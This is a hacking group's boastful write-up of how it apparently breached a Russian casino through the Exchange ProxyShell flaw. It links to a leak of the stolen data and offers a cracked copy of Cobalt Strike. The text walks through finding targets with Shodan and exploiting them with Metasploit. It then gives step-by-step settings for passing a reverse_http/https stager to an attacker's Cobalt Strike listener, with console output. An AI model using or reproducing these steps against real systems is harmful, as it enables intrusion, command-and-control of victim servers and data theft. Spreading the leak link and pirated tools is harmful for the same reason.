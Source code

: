 On march 30th 2022, we had published a leak on a large russian casino that is tied to the russian hotel "Shambala"
you can find the leak here: LINK TO LEAK: https://anonfiles.com/38r2e8S5x1/shambala_Poker_JokerClub_zip

Today we come with a writeup on how we preformed this hack from the start to finish!

There is a huge belief amongst many people that say "Casinos are too secure", "Casinos are more secure then a bank", etc etc even when it comes to physical security
but after reading this im sure you will come to a shock as well on how missing just one security patch can lead to us hacking a whole casino!

Initially we were looking for different targets vulnerable to Proxyshell through shodan, specifically in Russia after finding a few targets we manually confirmed the vulnerability (the reasoning for this is due to shodan scans can lead to false positives or even sometimes is outdated completely) and then did more research on the target to confirm what we are attacking!

(the follow NSE script can be used to confirm and scan proxyshell https://github.com/GossiTheDog/scanning/blob/main/http-vuln-exchange-proxyshell.nse)

To our shock we found a hotel that has a large income coming in and out and after further research we found the hotel was in some form tied to the russian government 
all excited we booted up our favorite C2 framework COBALT STRIKE!! (you can find a copy on our telegram channel and if requests we currently give out the crack for free!)
knowing the proxyshell vulnerability is there we also started Metasploit and loaded the proxyshell module, we had no reason to use our personal written exploit as the proxyshell module on metasploit was stable enough and did not have any concerning issues.

## Initial Foothold

### BUT GHOSTSEC HOW CAN WE TURN OUR METASPLOIT SHELL TO COBALT STRIKE?!?!?
This should be the least of your worries at this point, it is fairly easy to do so and here comes our STEP BY STEP guide on getting your victim from metasploit to your C2 framework (this applies to other C2s not just cobalt) 

STEP 1. Set PAYLOAD to windows/meterpreter/reverse_http for an HTTP Beacon. Set PAYLOAD to windows/meterpreter/reverse_https for an HTTPS Beacon. You’re not really delivering Meterpreter here. You’re telling the Metasploit Framework to generate an HTTP (or HTTPS) stager to download a payload from the specified LHOST and LPORT.

STEP 2. set the Lhost and Lport to your cobalt strike listener Cobalt Strike knows what to do when it receives a request from a Metasploit Framework stager.

STEP 3. Set DisablePayloadHandler to True. Set PrependMigrate to True.

STEP 4. PROFIT!!!

```
msf6 > search -u exchange_proxyshell_rce  
[*] Using configured payload windows/x64/meterpreter/reverse_tcp  
  
Matching Modules  
================  
  
  #  Name                                          Disclosure Date  Rank       Check  Description  
  -  ----                                          ---------------  ----       -----  -----------  
  0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE  
  
  
Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/exchange_proxyshell_rce  
  
[*] Using exploit/windows/http/exchange_proxyshell_rce  
msf6 exploit(windows/http/exchange_proxyshell_rce) > options  
  
```
